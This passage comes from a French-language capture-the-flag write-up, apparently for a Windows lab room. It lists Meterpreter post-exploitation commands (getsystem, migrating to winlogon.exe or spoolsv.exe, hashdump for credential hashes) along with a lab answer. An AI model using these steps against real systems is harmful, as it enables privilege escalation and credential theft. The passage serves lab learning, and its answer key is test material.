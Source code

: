 ## #6 Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this.

```
meterpreter > getuid
```

Elevation de privilège "system" built-in (pas nécessaire ici, on est déja en system)
```
meterpreter > getsystem
```

Pour avoir un invite de commande msdos depuis meterpreter:
```
meterpreter > shell
```
CTRL+C

## #7 List all of the processes running via the 'ps' command.

## #8 Migrate to this process using the 'migrate PROCESS_ID' command

Permet d'attacher la sessions à un autre processus pour plus de stablilité.

> Le processus spoolsv.exe (spoolsv signifiant Printer Spooler Service, en français spouleur d'impression) est un processus générique de Windows NT/2000/XP servant à mettre en mémoire (file d'attente) les travaux d'impression. 
```
meterpreter > migrate <pid>
```

ou

> winlogon.exe gère les ouvertures de sessions, charge le profil d’un utilisateur après son authentification (userinit.exe) et gère l’écran de veille.
```
meterpreter > migrate -N winlogon.exe
```

# [Task 4] Cracking

## #1  Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? 

meterpreter > hashdump

> Réponse: Jon

## #2 What is the cracked password?

